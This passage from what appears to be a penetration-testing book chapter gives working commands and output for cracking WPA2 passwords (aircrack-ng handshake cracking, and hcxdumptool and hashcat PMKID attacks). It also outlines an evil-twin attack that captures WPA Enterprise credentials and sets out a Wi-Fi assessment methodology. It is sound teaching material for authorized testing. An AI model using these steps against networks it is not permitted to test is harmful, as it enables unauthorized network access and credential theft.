```` ``` # **airmon-ng check kill**  # **airodump-ng** **-c** **6** **--bssid 0C:0C:0C:0C:0C:0C wlan0mo -w dump** ```    Once we’ve captured frames for a couple of minutes, we start our brute-force attack to crack the key. We can do this quickly using Aircrack-ng:    ``` # **aircrack-ng -a2 -b 0C:0C:0C:0C:0C:0C -w list dump-01.cap**                               Aircrack-ng 1.5.2        [00:00:00] 4/1 keys tested (376.12 k/s)        Time left: 0 seconds                                     400.00%                             KEY FOUND! [ 24266642 ]          Master Key     : 7E 6D 03 12 31 1D 7D 7B 8C F1 0A 9E E5 B2 AB 0A                         46 5C 56 C8 AF 75 3E 06 D8 A2 68 9C 2A 2C 8E 3F          Transient Key  : 2E 51 30 CD D7 59 E5 35 09 00 CA 65 71 1C D0 4F                         21 06 C5 8E 1A 83 73 E0 06 8A 02 9C AA 71 33 AE                         73 93 EF D7 EF 4F 07 00 C0 23 83 49 76 00 14 08                         BF 66 77 55 D1 0B 15 52 EC 78 4F A1 05 49 CF AA        EAPOL HMAC     : F8 FD 17 C5 3B 4E AB C9 D5 F3 8E 4C 4B E2 4D 1A ```    We recover the PSK: `24266642`.    Note that some networks use more complex passwords, making this technique less feasible.    #### PMKID Attacks    In 2018, a Hashcat developer nicknamed atom discovered a new way to crack the WPA/WPA2 PSK and outlined it in the Hashcat forums. The novelty of this attack is that it’s clientless; the attacker can target the AP directly without having to capture the four-way handshake. In addition, it’s a more reliable method.    This new technique takes advantage of the *Robust Security Network (RSN)* PMKID field, an optional field normally found in the first EAPOL frame from the AP. The PMKID gets computed as follows:    ``` PMKID = HMAC-SHA1-128(PMK, “PMK Name” | MAC_AP | MAC_STA) ```    The PMKID uses the HMAC-SHA1 function with the PMK as a key. It encrypts the concatenation of a fixed string label, `"PMK Name"`; the AP’s MAC address; and the wireless station’s MAC address.    For this attack, you’ll need the following tools: Hcxdumptool, Hcxtools, and Hashcat. To install Hcxdumptool, use the following commands:    ``` $ **git clone https://github.com/ZerBea/hcxdumptool.git** $ **cd hcxdumptool && make &&** **sudo** **make install** ```    To install Hcxtools, you’ll first need to install `libcurl-dev` if it’s not already installed on your system:    ``` $ **sudo apt-get install libcurl4-gnutls-dev** ```    Then you can install Hcxtools with the following commands:    ``` $ **git clone https://github.com/ZerBea/hcxtools.git** $ **cd hcxtools && make &&** **sudo** **make install** ```    If you’re working on Kali, Hashcat should already be installed. On Debian-based distributions, the following command should do the trick:    ``` $**sudo** **apt install hashcat** ```    We first put our wireless interface in monitor mode. Follow the instructions in “Deauthentication and Denial-of-Service Attacks” on page 289 to do this.    Next, using `hcxdumptool`,we start capturing traffic and save it to a file:    ``` # **hcxdumptool -i wlan0mon –enable_status=31 -o sep.pcapng –filterlist_ap=whitelist.txt --filtermode=2** initialization... warning: wlan0mon is probably a monitor interface  start capturing (stop with ctrl+c) INTERFACE................: wlan0mon ERRORMAX.................: 100 errors FILTERLIST...............: 0 entries MAC CLIENT...............: a4a6a9a712d9 MAC ACCESS POINT.........: 000e2216e86d (incremented on every new client) EAPOL TIMEOUT............: 150000 REPLAYCOUNT..............: 65165 ANONCE...................: 6dabefcf17997a5c2f573a0d880004af6a246d1f566ebd04c3f1229db1ada39e ... [18:31:10 – 001] 84a06ec17ccc -> ffffffffff Guest [BEACON, SEQUENCE 2800, AP CHANNEL 11] ... [18:31:10 – 001] 84a06ec17ddd -> e80401cf4fff [FOUND PMKID CLIENT-LESS] [18:31:10 – 001] 84a06ec17eee -> e80401cf4aaa [AUTHENTICATION, OPEN SYSTEM, STATUS 0, SEQUENCE 2424] ... INFO: cha=1, rx=360700, rx(dropped)=106423, tx=9561, powned=21, err=0 INFO: cha=11, rx=361509, rx(dropped)=106618, tx=9580, powned=21, err=0 ```    Make sure you apply the `–filterlist_ap` argument with your target’s MAC address when using Hcxdumptool so you don’t accidentally crack the password for a network you have no permission to access. The `--filtermode` option will blacklist (`1`) or whitelist (`2`) the values in your list and then either avoid or target them. In our example, we listed these MAC addresses in the *whitelist.txt* file.    The output found a potentially vulnerable network, identified by the `[FOUND PMKID]` tag. Once you see this tag, you can stop capturing traffic. Keep in mind that it might take some time before you encounter it. Also, because the PMKID field is optional, not all existing APs will have one.    Now we need to convert the captured data, which includes the PMKID data in the *pcapng* format, to a format that Hashcat can recognize: Hashcat takes hashes as input. We can generate a hash from the data using `hcxpcaptool`:    ``` $ **hcxpcaptool -z out sep.pcapng** reading from sep.pcapng-2                                                 summary:                                         -------- file name....................: sep.pcapng-2 file type....................: pcapng 1.0 file hardware information....: x86_64 file os information..........: Linux 5.2.0-kali2-amd64 file application information.: hcxdumptool 5.1.4 network type.................: DLT_IEEE802_11_RADIO (127) endianness...................: little endian read errors..................: flawless packets inside...............: 171 skipped packets..............: 0 packets with GPS data........: 0 packets with FCS.............: 0 beacons (with ESSID inside)..: 22 probe requests...............: 9 probe responses..............: 6 association requests.........: 1 association responses........: 10 reassociation requests.......: 1 reassociation responses......: 1 authentications (OPEN SYSTEM): 47 authentications (BROADCOM)...: 46 authentications (APPLE)......: 1 EAPOL packets (total)........: 72 EAPOL packets (WPA2).........: 72 EAPOL PMKIDs (total).........: 19 EAPOL PMKIDs (WPA2)..........: 19 best handshakes..............: 3 (ap-less: 0) best PMKIDs..................: 8  8 PMKID(s) written in old hashcat format (<= 5.1.0) to out ```    This command creates a new file called *out* that contains data in the following format:    ``` 37edb542e507ba7b2a254d93b3c22fae*b4750e5a1387*6045bdede0e2*4b61746879 ```    This * delimited format contains the PMKID value, the AP’s MAC address, the wireless station’s MAC address, and the ESSID. Create a new entry for every PMKID network you identify.    Now use the Hashcat 16800 module to crack the vulnerable network’s password. The only thing missing is a wordlist containing potential passwords for the AP. We’ll use the classic *rockyou.txt* wordlist.    ``` **$ `cd /usr/share/wordlists/ && gunzip -d rockyou.txt.gz`** $ **hashcat -m16800 ./out /usr/share/wordlists/rockyou.txt** OpenCL Platform #1: NVIDIA Corporation ======================================  * Device #1: GeForce GTX 970M, 768/3072 MB allocatable, 10MCU OpenCL Platform #2: Intel(R) Corporation Rules: 1 ... .37edb542e507ba7b2a254d93b3c22fae*b4750e5a1387*6045bdede0e2*4b61746879: **purple123** 1 Session..........: hashcat Status...........: Cracked Hash.Type........: WPA-PMKID-PBKDF2 Hash.Target......: 37edb542e507ba7b2a254d93b3c22fae*b4750e5a1387*6045b...746879 Time.Started.....: Sat Nov 16 13:05:31 2019 (2 secs) Time.Estimated...: Sat Nov 16 13:05:33 2019 (0 secs) Guess.Base.......: File (/usr/share/wordlists/rockyou.txt) Guess.Queue......: 1/1 (100.00%) Speed.#1.........:   105.3 kH/s (11.80ms) @ Accel:256 Loops:32 Thr:64 Vec:1 Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts Progress.........: 387112/14344385 (2.70%) Rejected.........: 223272/387112 (57.68%) Restore.Point....: 0/14344385 (0.00%) Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1 Candidates.#1....: 123456789 -> sunflower15 Hardware.Mon.#1..: Temp: 55c Util: 98% Core:1037MHz Mem:2505MHz Bus:16  Started: Sat Nov 16 13:05:26 2019 Stopped: Sat Nov 16 13:05:33  ```    The Hashcat tool manages to extract the password 1: `purple123`.    ### Cracking into WPA/WPA2 Enterprise to Capture Credentials    In this section, we provide an overview of attacks against WPA Enterprise. An actual exploitation of WPA Enterprise is outside the scope of this book, but we’ll briefly cover how such an attack works.    WPA Enterprise is a more complex mode than WPA Personal and is mainly used for business environments that require extra security. This mode includes an extra component, a *Remote Authentication Dial-In User Service (RADIUS)* server, and uses the 802.1x standard. In this standard, the four-way handshake occurs after a separate authentication process, the EAP. For this reason, the attacks on WPA Enterprise focus on breaking EAP.    EAP supports many different authentication methods, the most common of which are Protected-EAP (PEAP) and EAP-Tunneled-TLS (EAP-TTLS). A third method, EAP-TLS, is becoming more popular due to its security features. At the time of this writing, EAP-TLS remains a safe choice, because it requires security certificates on both sides of the wireless connection, providing a more resilient approach to connecting to an AP. But the administrative overhead of managing the server and the client certificates might deter most network administrators. The other two protocols perform certificate authentication to the server only, not to the client, allowing the clients to use credentials that are prone to interception.    Network connections in the WPA Enterprise mode involve three parties: the client, the AP, and the RADIUS authentication server. The attack described here will target the authentication server and the AP by attempting to extract the victim’s credential hashes for an offline brute-force attack. It should work against the PEAP and EAP-TTLS protocols.    First, we create a fake infrastructure containing a fake AP and a RADIUS server. This AP should mimic the legitimate one by operating with the same BSSID, ESSID, and channel. Next, because we’re targeting the clients rather than the AP, we’ll deauthenticate the AP’s clients. The clients will attempt to reconnect to their target AP by default, at which point our malicious AP will associate the victims to it. This way, we can capture their credentials. The captured credentials will be encrypted, as mandated by the protocol. Fortunately for us, the PEAP and EAP-TTLS protocols use the MS-CHAPv2 encryption algorithm, which uses the Data Encryption Standard (DES) under the hood and is easily cracked. Equipped with a list of captured encrypted credentials, we can launch an offline brute-force attack and recover the victim’s credentials.    ## A Testing Methodology    When performing a security assessment on Wi-Fi enabled systems, you could follow the methodology outlined here, which covers the attacks described in this chapter.    First, verify whether the device supports Wi-Fi Direct and its association techniques (PIN, PBC, or both). If so, it could be susceptible to PIN brute forcing or EvilDirect attacks.    Next, examine the device and its wireless capabilities. If the wireless device supports STA capabilities (which means itcan be used as either an AP or a client), it might be vulnerable to association attacks. Check if the client connects automatically to previously connected networks. If it does, it could be vulnerable to the Known Beacons attack. Verify that the client isn’t arbitrarily sending probes for previously connected networks. If it is, it could be vulnerable to a KARMA attack.    Identify whether the device has support for any third-party Wi-Fi utilities, such as custom software used to set up Wi-Fi automatically. These utilities could have insecure settings enabled by default due to negligence. Study the device’s activities. Are there any critical operations happening over Wi-Fi? If so, it might be possible to cause a denial of service by jamming the device. Also, in cases when the wireless device supports AP capabilities, it could be vulnerable to improper authentication.    Then search for potential hardcoded keys. Devices configured to support WPA2 Personal might come with a hardcoded key. This is a common pitfall that could mean an easy win for you. On enterprise networks that use WPA Enterprise, identify which authentication method the network is employing. Networks using PEAP and EAP-TTLS could be susceptible to having their client’s credentials compromised. Enterprise networks should use EAP-TLS instead.    ## Conclusion    Recent advances in technologies like Wi-Fi have greatly contributed to the IoT ecosystem, allowing people and devices to be even more connected than ever in the past. Most people expect a standard degree of connectivity wherever they go, and organizations regularly rely on Wi-Fi and other wireless protocols to increase their productivity.    In this chapter, we demonstrated Wi-Fi attacks against clients and APs with off-the-shelf tools, showing the large attack surface that medium-range radio protocols unavoidably expose. At this point, you should have a good understanding of various attacks against Wi-Fi networks, ranging from signal jamming and network disruption to association attacks like the KARMA and Known Beacons attacks. We detailed some key features of Wi-Fi Direct and how to compromise them using PIN brute forcing and the EvilDirect attack. Then we went over the WPA2 Personal and Enterprise security protocols and identified their most critical issues. Consider this chapter a baseline for your Wi-Fi network assessments. ````
